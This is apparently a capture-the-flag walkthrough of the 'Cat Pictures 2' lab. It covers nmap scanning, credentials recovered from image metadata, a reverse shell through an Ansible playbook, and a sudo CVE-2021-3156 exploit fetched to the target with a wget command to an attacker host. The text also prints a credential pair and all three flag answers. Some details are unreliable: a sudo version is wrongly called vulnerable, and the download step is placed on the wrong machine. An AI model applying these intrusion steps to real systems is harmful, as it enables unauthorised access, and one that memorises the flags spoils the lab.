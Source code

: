 # Cat Pictures 2

### Flags!
Initial nmap scan shows ports 22,80,222,1337,3000 and 8080 open:

    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 33:f0:03:36:26:36:8c:2f:88:95:2c:ac:c3:bc:64:65 (RSA)
    |   256 4f:f3:b3:f2:6e:03:91:b2:7c:c0:53:d5:d4:03:88:46 (ECDSA)
    |_  256 13:7c:47:8b:6f:f8:f4:6b:42:9a:f2:d5:3d:34:13:52 (ED25519)
    80/tcp   open  http    nginx 1.4.6 (Ubuntu)
    | http-git: 
    |   10.10.150.134:80/.git/
    |     Git repository found!
    |     Repository description: Unnamed repository; edit this file 'description' to name the...
    |     Remotes:
    |       https://github.com/electerious/Lychee.git
    |_    Project type: PHP application (guessed from .gitignore)
    | http-robots.txt: 7 disallowed entries 
    |_/data/ /dist/ /docs/ /php/ /plugins/ /src/ /uploads/
    |_http-title: Lychee
    |_http-server-header: nginx/1.4.6 (Ubuntu)
    222/tcp  open  ssh     OpenSSH 9.0 (protocol 2.0)
    | ssh-hostkey: 
    |   256 be:cb:06:1f:33:0f:60:06:a0:5a:06:bf:06:53:33:c0 (ECDSA)
    |_  256 9f:07:98:92:6e:fd:2c:2d:b0:93:fa:fe:e8:95:0c:37 (ED25519)
    1337/tcp open  waste?
    | fingerprint-strings: 
    |   GenericLines: 
    |     HTTP/1.1 400 Bad Request
    |     Content-Type: text/plain; charset=utf-8
    |     Connection: close
    |     Request
    |   GetRequest, HTTPOptions: 
    |     HTTP/1.0 200 OK
    |     Accept-Ranges: bytes
    |     Content-Length: 3858
    |     Content-Type: text/html; charset=utf-8
    |     Date: Sun, 22 Dec 2024 20:08:19 GMT
    |     Last-Modified: Wed, 19 Oct 2022 15:30:49 GMT
    |     <!DOCTYPE html>
    |     <html>
    |     <head>
    |     <meta name="viewport" content="width=device-width, initial-scale=1.0">
    |     <title>OliveTin</title>
    |     <link rel = "stylesheet" type = "text/css" href = "style.css" />
    |     <link rel = "shortcut icon" type = "image/png" href = "OliveTinLogo.png" />
    |     <link rel = "apple-touch-icon" sizes="57x57" href="OliveTinLogo-57px.png" />
    |     <link rel = "apple-touch-icon" sizes="120x120" href="OliveTinLogo-120px.png" />
    |     <link rel = "apple-touch-icon" sizes="180x180" href="OliveTinLogo-180px.png" />
    |     </head>
    |     <body>
    |     <main title = "main content">
    |     <fieldset id = "section-switcher" title = "Sections">
    |     <button id = "showActions">Actions</button>
    |_    <button id = "showLogs">Logs</but
    3000/tcp open  ppp?
    | fingerprint-strings: 
    |   GenericLines, Help, RTSPRequest: 
    |     HTTP/1.1 400 Bad Request
    |     Content-Type: text/plain; charset=utf-8
    |     Connection: close
    |     Request
    |   GetRequest: 
    |     HTTP/1.0 200 OK
    |     Cache-Control: no-store, no-transform
    |     Content-Type: text/html; charset=UTF-8
    |     Set-Cookie: i_like_gitea=7cbab1b137caab4d; Path=/; HttpOnly; SameSite=Lax
    |     Set-Cookie: _csrf=SffAM2ZL2mfIiWjRzUlcR_P4veg6MTczNDg5ODA5OTQ0MjMxMzYzNw; Path=/; Expires=Mon, 23 Dec 2024 20:08:19 GMT; HttpOnly; SameSite=Lax
    |     Set-Cookie: macaron_flash=; Path=/; Max-Age=0; HttpOnly; SameSite=Lax
    |     X-Frame-Options: SAMEORIGIN
    |     Date: Sun, 22 Dec 2024 20:08:19 GMT
    |     <!DOCTYPE html>
    |     <html lang="en-US" class="theme-">
    |     <head>
    |     <meta charset="utf-8">
    |     <meta name="viewport" content="width=device-width, initial-scale=1">
    |     <title> Gitea: Git with a cup of tea</title>
    |     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL2xvY2FsaG9zdDozMDAwLyIsImljb25zIjpbeyJzcmMiOiJodHRwOi
    |   HTTPOptions: 
    |     HTTP/1.0 405 Method Not Allowed
    |     Cache-Control: no-store, no-transform
    |     Set-Cookie: i_like_gitea=c6dc4fa792ad5cd3; Path=/; HttpOnly; SameSite=Lax
    |     Set-Cookie: _csrf=i82q43PSHKigw-Qb-AdDAuDqSWE6MTczNDg5ODEwNDczOTcyODY2MA; Path=/; Expires=Mon, 23 Dec 2024 20:08:24 GMT; HttpOnly; SameSite=Lax
    |     Set-Cookie: macaron_flash=; Path=/; Max-Age=0; HttpOnly; SameSite=Lax
    |     X-Frame-Options: SAMEORIGIN
    |     Date: Sun, 22 Dec 2024 20:08:24 GMT
    |_    Content-Length: 0
    8080/tcp open  http    SimpleHTTPServer 0.6 (Python 3.6.9)
    |_http-server-header: SimpleHTTP/0.6 Python/3.6.9
    |_http-title: Welcome to nginx!

Gobuster directory enumeration shows the following directories:<br />
![image](https://github.com/user-attachments/assets/f36e081e-9f12-4d73-ac94-b7325b9007f8)<br />
Robots.txt file shows the following directories: <br />
![image](https://github.com/user-attachments/assets/e541d71c-abb0-4643-a4d2-24809da568f6)<br />
I also enumerated al the other webservers a bit but I didn't find anything. Then, looking at the album pictures, I found a hint:<br />
![image](https://github.com/user-attachments/assets/d181e5e9-1d7b-4fbe-b098-7f7b458e4dc8)<br />
This means that there's likely some hidden information inside this image. This is a lesson to me, don't start enumerating stuff like an automa. Start on the simple things, look at the page in front of you and explore it as a normal user.<br /><br />
So I download the image and use the tool `steghide` to extract information from it(`sudo apt-get install steghide`). I get asked to enter a passphrase: <br />
![image](https://github.com/user-attachments/assets/e58eed48-17a0-4587-a7dc-d85fe4aa76bf)<br />
I tried to use `stegseek` to bruteforce the passphrase with rockyou.txt but it didn't work. Next I used the tool `exiftool` that extracts metadata from images. So I run `exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg` <br />
![image](https://github.com/user-attachments/assets/52fdcd03-f1a4-47bd-979a-c2d8f9bce835)<br />
Among other things, the title is really weird, and hints at the presence of a .txt file inside the webserver at port 8080. In fact, there's something there: <br />
![image](https://github.com/user-attachments/assets/a3a40f81-b53a-439c-ace7-e8c2b13a9e88)<br />
New credentials found: `samarium:TUmhyZ37CLZrhP`. After logging into gitea I get the first flag. Now we also have access to the repository containing `ansible/playbook.yaml`. <br />
Now If we check the webserver at port 1337, there's an `OliveTin` instance, which is a web application that gives safe access to system commands for people that are less techical. Among all the commands, there's "Run Ansible Playbook":<br />
![image](https://github.com/user-attachments/assets/6e1bf9d5-ad0b-441e-a1f8-aa41ef1fdb5f)<br />
In order to spawn a reverse shell, I open a netcat listener on port 4444, and modify the `playbook.yaml` as follows:<br />
![image](https://github.com/user-attachments/assets/3e45ca86-2450-4941-8909-5b2a218efe65)<br />
I am now the user `bismuth` and got the second flag.<br />
Running linpeas, it shows me, among other things, the sudo version: <br />
![image](https://github.com/user-attachments/assets/7bc45ae8-f5a0-422b-ad91-6d775a7975bd)<br />
The current sudo version is `1.9.16`, so this one must be vulnerable. I found [here](https://github.com/blasty/CVE-2021-3156) a POC for a CVE that exploits this sudo version for privilege escalation.<br />
What I need to do now is to download the repo on my machine with `git clone https://github.com/blasty/CVE-2021-3156`. Then I need to transfer it on the target machine. Since I can't transfer an entire folder using netcat or python http.server, I need to compress it first.<br />
Run `tar -cvf exp.tar CVE-2021-3156` (-c stands for create, -v for verbose, -f to specify the name of the file). So now open an http server with `python3 -m http.server`, and on the attacker machine download it with `wget http://attacker_IP/exp.tar`.<br />
Now on the target machine, run `tar xf exp.tar` (-x stands for extract, -f specifies the file) and then run `make`, like below:<br />
![image](https://github.com/user-attachments/assets/9b9770eb-3770-4c95-a3eb-acd0b34b96d6)<br />
Now I can run the exploit on the target machine and get the last flag: <br />
![image](https://github.com/user-attachments/assets/063563ea-54b5-4ffc-b6ef-62181f519176)<br />


- What is Flag 1? `10d916eaea54bb5ebe36b59538146bb5`
- What is Flag 2? `5e2cafbbf180351702651c09cd797920`
- What is Flag 3? `6d2a9f8f8174e86e27d565087a28a971`
